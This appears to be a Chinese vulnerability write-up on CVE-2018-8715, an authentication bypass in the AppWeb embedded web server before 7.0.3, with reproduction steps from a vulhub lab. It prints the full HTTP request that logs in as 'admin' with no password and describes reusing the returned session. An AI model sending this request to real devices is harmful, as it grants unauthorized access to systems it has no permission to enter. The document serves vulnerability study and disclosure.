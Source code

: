 # （CVE-2018-8715）AppWeb 认证绕过漏洞

> 原文：[http://book.iwonder.run/0day/AppWeb/CVE-2018-8715.html](http://book.iwonder.run/0day/AppWeb/CVE-2018-8715.html)

## 一、漏洞简介

AppWeb 是 Embedthis Software LLC 公司负责开发维护的一个基于 GPL 开源协议的嵌入式 Web Server。他使用 C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供 Web Application 容器。

AppWeb 可以进行认证配置，其认证方式包括以下三种：

*   basic 传统 HTTP 基础认证
*   digest 改进版 HTTP 基础认证，认证成功后将使用 Cookie 来保存状态，而不用再传递 Authorization 头
*   form 表单认证

其 7.0.3 之前的版本中，对于 digest 和 form 两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb 将因为一个逻辑错误导致直接认证成功，并返回 session。

## 二、漏洞影响

AppWeb <=7.0.3

## 三、复现过程

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin 
```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了 200，且包含一个 session：

![image](img/7f6667f5713eabde613bd9300de629f1.png)

设置这个 session 到浏览器，即可正常访问需要认证的页面：

![image](img/853b0ac4505342b584c14a582edba5db.png)

## 参考链接

> [https://vulhub.org/#/environments/appweb/CVE-2018-8715/](https://vulhub.org/#/environments/appweb/CVE-2018-8715/)

